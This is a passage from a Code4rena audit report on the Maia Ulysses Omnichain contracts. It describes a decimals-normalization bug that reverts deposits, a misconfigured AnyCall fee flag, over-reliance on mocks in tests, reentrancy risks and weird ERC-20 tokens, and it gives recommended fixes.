- To demonstrate this issue, we need to modify the following [line](https://github.com/code-423n4/2023-05-maia/blob/main/test/ulysses-omnichain/BranchBridgeAgentTest.t.sol#L55) in `test/ulysses-omnichain/BranchBridgeAgentTest.t.sol` to use 6 decimals instead of 18:

    - `underlyingToken = new MockERC20("underlying token", "UNDER", 6);`

Running `forge test --match-contract BranchBridgeAgentTest` will result in multiple test failures:


The flowchart illustrates the execution flow of a failed test case, specifically `testCallOutWithDeposit()`, providing insight into the scenario that caused the failure. When the test file calls `BaseBranchRouter::callOutAndBridge()` through the `testCallOutWithDeposit()` function, it is forwarded to `BranchBridgeAgent::performCallOutAndBridge`, which in turn calls the internal function `_callOutAndBridge`.

Within this function, two key actions take place:
- All received data is stored in the `packedData` variable.
- This received data is passed to `_depositAndCall()`.

The problem arises when the deposit value is normalized before being stored in `packedData`, but it is passed as is to `_depositAndCall()`. Progressing further, the values received by `_depositAndCall()` are subsequently passed to `_createDepositSingle()`, which performs the following actions:
- Updates the state by storing the normalized `_deposit` value.
- Invokes `BranchPort::bridgeOut()` to retrieve tokens from the user.

In `bridgeOut()`, when the contract pulls the tokens, it denormalizes the `_deposit` value (which was never normalized). This leads to an underflow, resulting in the entire transaction reverting and preventing the user from depositing the token.

### Mitigation

The specific steps to mitigate this issue are outlined in the vulnerability report.


In this updated flowchart, we made the following changes to ensure the success of the test case:
- Modified `_normalizeDecimals()` and `_denormalizeDecimals()` to produce the correct output.
- Normalized the `_deposit` value when passing it to `BranchBridgeAgent::_depositAndCall()`.
- Denormalized the `_deposit` value when storing it in the `getDeposit` mapping.

### Recommendation

This demonstration highlights only one scenario, but we believe there may be multiple functions within the omnichain that have not implemented normalization and denormalization correctly. Our recommendation is to use the normalized value when interacting with the omnichain and employ the denormalized value for external interactions.

## Ulysses Omnichain

### Concerns with ``AnyCall``

Multichain’s `AnyCall` router is at its version 7 release. What is convenient, is that it is an cross-chain solution that can work on both L1s and L2s without needing the cross-chain infrastructure implemented by dApps themselves.  

What is challenging with `AnyCall` involves 3 issues:

1. Multichain has poor communication and technical support on their public Discord.
2. The `AnyCall` documentation is sparse and the source needs to be referenced for technical details.
3. The SMPC network suffers from a lack of client diversity, creating opportunities for security vulnerabilities across the entire network.

### Cross-chain integration with `AnyCall` misconfigured

Part of the consequence of the poor documentation and MultiChain’s poor communication (mainly reachability on the Discord server) seems to have led to the following problem, as it’s not clear how to implement the protocol correctly. Developer relations on the server is difficult to find so that confusion can be cleared, the following outcome happens:

**Branch-to-Branch txs fail, and "pay on src" misconfiguration:**

`anyCall` accepts 2 different execution gas payment schemes:

1. Pay on source chain.
2. Pay on destination chain.

The documentation and intention (image below) of the ulysses omnichain protocol remark that "pay on destination" is how the system is made to execution gas payments. However, the opposite is true. We’ll see that this issue goes a bit deeper. In `BranchBridgeAgent.sol`, the call to `anyCall` for the branch chain system is configured with the equivalent flag for "pay on source", `FLAG_ALLOW_CALLBACK`: 

[Reference here](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-omnichain/BranchBridgeAgent.sol#L1087-L1094).

```solidity
/**
 * @notice Internal function performs call to AnycallProxy Contract for cross-chain messaging.
 - @param _calldata ABI encoded function call.
 */
function _performCall(bytes memory _calldata) internal virtual {
    //Sends message to AnycallProxy
    IAnycallProxy(local`AnyCall`Address).anyCall(
        rootBridgeAgentAddress, _calldata, rootChainId, AnycallFlags.FLAG_ALLOW_FALLBACK, ""
    );
}
```

### Looking at the `AnycallV7Upgradeable.sol` and `AnycallV7Config.sol`

See the screenshots below. They show the relevant code for what happens when `IAnycallProxy.anyCall` is executed.

For #1, we can see the actual on-chain `anyCall` function call  The key line is underlined in red. All calls here can't pass without paying fees (through `_paySrcFees`) on the source chain. The calculation can be seen in [[1]](https://github.com/anyswap/multichain-smart-contracts/blob/main/contracts/anycall/v7/AnycallV7Config.sol#L522-L547).

Image #1:


What happens next in `_paySrcFees` is in image #2, underlined in red. There's a requirement `require(msg.value >= fees, "no enough src fee")`. 

Image #2: 


This is the trap, as there won't be a `msg.value` in the call to `IAnycallProxy.anyCall`, as seen in image #3.

Image #3:


### Aren’t there tests showing that this works?

Yes, but they use a mock with a fake `anyCall` [[2]](https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/test/ulysses-omnichain/BranchBridgeAgentTest.t.sol), not the actual contracts through a forking test. What we get in the tests are placeholder addresses and mocks that return pre-determined values.  For that reason, it was likely missed that the misconfigured integration with `AnyCall` was missed.


### Testing Strategy causing missed implementation failures

The current testing strategy involves creating mocks for a large number of system objects. That includes 3rd-party tokens, internal contracts, and external protocols such as `AnyCall` itself. While it is helpful to be able to control the execution environment within a testing suite, the lack of exposure to actual systems in tests, especially those of cornerstone systems such as `AnyCall` in the Ulysses Omnichain tests, which expose more risk to failed assumptions than is necessary.

Using the Foundry toolkit’s forking tests is a useful mitigation to this. Without needing to deploy local chains and relevant 3rd-party contracts, tests can be created that can utilize and instrument deployed versions of important systems, with the full control of EVM parameters. These can be combined with the mocking system in Foundry to create tests that are closer to real-world parameters and they help expose and correct assumptions and bugs in the codebase under test.

### Repeated Check-Effects-Interaction violations

There are many instances where possible reentrancy is potentially introduced in the codebase. A large number of external-facing functions in `BranchBridgeAgent.sol` alone demonstrates this case. Using Slither on the codebase, we can see this more clearly:

```solidity
INFO:Slither:./src/ulysses-omnichain/*.sol analyzed (268 contracts with 5 detectors), 145 result(s) found
```

145 possible cases of reentrancy were flagged in the `src/ulysses-omnichain/` folder alone.

While most code paths were not able to be explored in the time allotted for the audit, there is a greather-than-zero chance that viable reentrancy is introduced due to violations of the check-effects-interactions pattern.

### Internal documentation for implementation sources difficult to read because of `@inheritdoc`

The copious use of NatSpec in the codebase has been very welcome.  In general, it provides good documentation for the intention of each function.  

What could be improved on is the use of `@inheritdoc` in the implementations of various interfaces. While the files containing the interfaces themselves have the documentation, the implementation files are likely to lack useful NatSpec in lieu of `@inheritdoc` tags, making the process of auditing those files more tedious; since switching contexts between the two files is necessary, and the fact there is no built-in command apparent in the project to generate documentation from the NatSpec comments themselves.

### Poisoned or Weird ERC-20 Tokens

It can be observed that the use or deposit of poisoned or weird ERC-20 tokens was marked as a known issue by the project team. It is stated by the project team in the C4 Contest details that: 

> “Our protocol has permissionless factories where anyone can create with poison 20 tokens or add poison erc20 tokens. While contracts generated by these are not in scope, **if it does affect other contracts or other balances, it is in scope.”**

However, we believe this functionality should be thoroughly investigated and mitigating controls implemented. 

What **would** occur if a user did deposit malicious or ‘weird’ ERC20 tokens and what strategies can be utilized to protect the protocol from such malicious use cases?

Although there are multiple variations of malicious or weird ERC20 tokens that can deposited, there is a selection of potentially hazardous implementations. Specifically, Fee on Transfer, Rebasing, Flash-Mintable, Tokens with Blacklists such as USDC and USDT are viewed as potentially hazardous to the wider functionality of Ulysses and the reputation of the protocol if unsophisticated users accidentally utlize them.

Branch Ports serve as a vault with a single-asset pool for each Omnichain token active in a given chain. Due to the burn and mint process in a swap, if any of the hazardous tokens mentioned above were deposited, it could disrupt accurate accounting between pools during swaps.

It is well understood that an on-chain, contract-level allow-list of known good tokens is not a viable mitigating control due to the permission-less nature of Ulyssess Omnichian. It is recommended that an off-chain allow-list in the official UI to protect unsophisticated users from utilizing underlying or associated `hTokens` that violate the expectations of how the Omnichain protocol should function.

## Architecture Description and Diagrams

While exploring the Ulysses-Omnichain codebase, it was helpful to diagram the architecture. Here are some diagrams that resulted. 

NOTE: these diagrams were generated with PlantUML. Sources can be provided by request.

### Bridge Agents:

### Cross-chain Contract Architecture


### `AnyCall` Focus


## `AnyCall` integration:

### Ulysses + anyCall v7 summary


### BranchBridgeAgent cross-chain request framework


### Example comms: a Cross-chain swap


### Generic `AnyCall` Cross-Chain Transactions


### Intended Gas Swap and Execution Cost Payment


### Time spent:
540 hours

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/834#issuecomment-1634155301):**
 > Very complete and well structured analysis! 

***

# Disclosures

C4 is an open organization governed by participants in the community.

C4 Audits incentivize the discovery of exploits, vulnerabilities, and bugs in smart contracts. Security researchers are rewarded at an increasing rate for finding higher-risk issues. Audit submissions are judged by a knowledgeable security researcher and solidity developer and disclosed to sponsoring developers. C4 does not conduct formal verification regarding the provided code but instead provides final verification.

C4 does not provide any guarantee or warranty regarding the security of this project. All smart contract software should be used at the sole risk and responsibility of users.
